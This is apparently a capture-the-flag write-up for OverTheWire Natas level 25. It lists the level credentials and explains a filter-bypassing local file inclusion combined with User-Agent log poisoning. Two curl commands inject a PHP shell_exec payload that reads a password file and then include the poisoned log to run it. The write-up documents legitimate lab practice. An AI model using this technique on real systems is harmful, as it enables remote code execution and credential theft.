 # username
natas25
# password
ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
# web app vulnerability
Local File Inclusion (Filter Bypass), HTTP Header Injection, Log Poisoning
# method of solve
This web app is vulnerable to LFI, but there is filtering in place to prevent use of the `../` pattern
```
function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
```
The next barrier to getting the password in the /etc/natas_webpass/natas26 file is this:
```
// dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```
We cannot bypass this filter, but when we trigger that code, the logRequest function is run:
```
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```
The function is vulnerable to log poisoning through the HTTP User-Agent header. So we can inject PHP code when the error occurs:
```
curl -u 'natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws' -v 'http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//....///var/www/natas/natas25/logs/natas25_413e96uk941o14rn1jb52ak29m.log' -b 'PHPSESSID=413e96uk941o14rn1jb52ak29m' -A '<?php echo shell_exec("cat /etc/natas_webpass/natas26"); ?>'
```
After this, we need to access the log file, but the code lets us know the file name:
```
$fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
```
So we access the log file with this payload:
```
curl -u 'natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws' -v 'http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_413e96uk941o14rn1jb52ak29m.log' -b 'PHPSESSID=413e96uk941o14rn1jb52ak29m'
```
